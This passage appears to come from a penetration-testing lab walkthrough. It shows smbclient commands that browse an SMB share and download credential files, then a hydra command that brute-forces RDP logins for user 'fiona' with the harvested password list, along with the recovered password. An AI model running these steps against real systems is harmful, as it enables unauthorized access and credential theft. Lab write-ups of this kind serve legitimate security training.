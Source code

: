     # we have a share 'Home'
    smbclient \\\\10.129.203.10\\home -U simon

    # this works

    dir
    # multiple folders

    recurse
    # enable recursive mode

    ls
    # now we can see all files

    cd IT\Fiona
    # we have creds.txt

    mget *

    cd ..\John
    # we have information.txt, notes.txt and secrets.txt

    cd ..\Simon
    # we have random.txt here

    mget *

    exit
    ```
  
  * We can check all the files fetched from SMB:

    * creds.txt - includes list of passwords as 'Windows Creds'
    * information.txt - this mentions a database, local linked server and impersonation
    * notes.txt - nothing useful
    * random.txt - another list of creds
    * secrets.txt - password list that seems to be used for DB
  
  * We have 3 users and 3 wordlists; we can start bruteforcing services now:

    ```sh
    # bruteforce RDP
    # checking for 'fiona'
    hydra -l fiona -P creds.txt 10.129.203.10 rdp
    # this gives us the password '48Ns72!bns74@S84NNNSl'
    ```
  
